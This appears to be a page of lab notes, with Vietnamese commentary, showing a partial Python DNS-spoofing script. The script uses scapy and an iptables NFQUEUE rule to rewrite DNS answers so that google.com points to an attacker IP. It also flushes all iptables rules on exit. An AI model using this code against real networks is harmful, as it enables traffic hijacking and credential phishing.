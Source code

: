```python!




def modify_packet(packet):
    """
    Modifies the DNS Resource Record `packet` ( the answer part)
    to map our globally defined `dns_hosts` dictionary.
    For instance, whenever we see a google.com answer, this function replaces
    """
    # get the DNS question name, the domain name
    qname = packet[DNSQR].qname
    if qname not in dns_hosts:
        # if the website isn't in our record
        # we don't wanna modify that
        print("no modification:", qname)
        return packet
    # craft new answer, overriding the original
    # setting the rdata for the IP we want to redirect (spoofed)
    # for instance, google.com will be mapped to "192.168.1.100"
    packet[DNS].an = DNSRR(rrname=qname, rdata=dns_hosts[qname])
    # set the answer count to 1
    packet[DNS].ancount = 1
    # delete checksums and length of packet, because we have modified the packet
    # new calculations are required ( scapy will do automatically )
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # return the modified packet
    return packet

QUEUE_NUM = 0
# insert the iptables FORWARD rule
os.system("iptables -A INPUT -j NFQUEUE --queue-num {}".format(QUEUE_NUM))
# instantiate the netfilter queue
queue = NetfilterQueue()

try:
    # bind the queue number to our callback `process_packet`
    # and start it
    queue.bind(QUEUE_NUM, process_packet)
    queue.run()
except KeyboardInterrupt:
    # if want to exit, make sure we
    # remove that rule we just inserted, going back to normal.
    os.system("iptables --flush")
```

- tiến hành chạy file dns_spoof.py và mình ping thử đến google.com và thấy địa chỉ của domain này đã được thay bằng địa chỉ ip của máy attacker tại 192.176.45.101
  - và chúng ta có thể thấy rõ hơn khi mình dùng nslookup để tìm tên miền của google.com
